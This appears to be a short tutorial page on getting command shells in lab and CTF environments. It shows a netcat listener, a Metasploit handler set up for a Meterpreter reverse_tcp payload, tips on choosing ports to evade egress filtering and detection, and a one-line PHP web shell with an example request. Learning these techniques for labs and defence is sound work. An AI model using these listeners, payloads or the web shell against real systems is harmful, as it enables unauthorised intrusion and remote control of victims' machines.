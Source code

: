 # Shells
For most lab or CTF environments, the goal is to get some kind of command shell on the machine for further exploitation. Sometimes this simply means discovering SSH or remote desktop credentials and logging in. Other times, it's exploiting the web application itself to generate a reverse shell that connects to your attack machine and waits for instructions.

In real life I'm not sure how often reverse shells really happen, but they're fun to pull off in the lab.

[This is a good primer on shells](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/) 

## Listeners
Your attack machine needs to have a listener running to catch a reverse shell connection. Make sure you specify the IP address of your attack machine and use a port that doesn't already have a service listening. If you need to use `python SimpleHTTPServer` or similar to transfer exploits, make sure that isn't running on the same port. 

### Netcat listener
Using ports 80 or 443 will help you get around egress filtering:
```
nc -lvp 443
```
### Meterpreter listener
You may prefer a Meterpreter listener if you're connecting to a Windows machine and want to take advantage of commands like `getsystem`, or you want to use local Metasploit exploits once you've connected to the remote machine.

Avoid using port 4444 since that is widely recognized as a Metasploit port:
```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp # or whatever
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost [attack machine] # your IP address
lhost => [attack machine]
msf exploit(handler) > set lport 443
lport => 443
msf exploit(handler) > run
```

## Simple PHP web shell
Assuming you are able to put a file on the web server or edit an existing one (e.g. CMS template) this is the simplest type of shell:

```
<?php echo shell_exec($_GET['cmd']); ?>
```
You can use it for system commands: 
```
http://127.0.0.1/wordpress/index.php?cmd=id
```
